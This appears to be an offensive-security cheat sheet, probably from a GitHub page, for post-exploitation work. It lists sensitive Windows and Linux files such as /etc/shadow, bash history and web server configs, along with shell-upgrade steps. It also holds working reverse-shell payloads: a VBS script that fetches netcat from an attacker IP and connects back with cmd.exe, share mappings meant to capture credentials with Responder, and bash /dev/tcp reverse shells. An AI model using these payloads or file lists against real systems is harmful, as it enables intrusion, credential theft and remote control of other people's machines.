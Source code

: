 # General
## Important Files
- Windows
```bash
C:\Windows\System32\drivers\etc\hosts
C:\inetpub\logs\LogFiles\W3SVC1\
C:\inetpub\wwwroot\web.config
C:\xampp\apache\logs\
C:/Users/Administrator/NTUser.dat
C:/xampp/phpMyAdmin/config.inc.php
C:\ProgramData\McAfee\Agent\DB\ma.db
```

- Linux
```bash
/opt/*
/var/mail
/var/log/apache2/access.log
/config/.htusers.php
/proc/self/environ
/proc/self/cmdline
/home/user/.bash_history
/home/user/.bash_aliases
/etc/passwd
/etc/shadow
/etc/aliases

# python related
main.py
app.py
settings.ini
applicationName.config
applicationName.cfg
```
## Upgrade Shell
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
hit ctrl+z to background our shell and get back on our local terminal, and input the following stty command:
  stty raw -echo
  fg
  [Enter]
  [Enter]
  export TERM=xterm-256color
  stty rows 67 columns 318
```

## Reverse Shell
```bash
# vbs reverse shell
Set oShell = CreateObject("Wscript.Shell")
oShell.run "cmd.exe /c curl 10.8.0.136/nc64.exe -o C:\Windows\Temp\nc64.exe"
oShell.run "cmd.exe /c C:\Windows\Temp\nc64.exe 10.8.0.136 2222 -e cmd.exe"

# vbs with responder
MapNetworkShare "\\192.168.45.202\UwU", "A"
MapNetworkShare "\\192.168.45.202\OwO", "Z"

# bash reverse shell
bash -i >& /dev/tcp/192.168.45.x/80 0>&1
bash -c 'bash -i >& /dev/tcp/192.168.45.202/80 0>&1'
```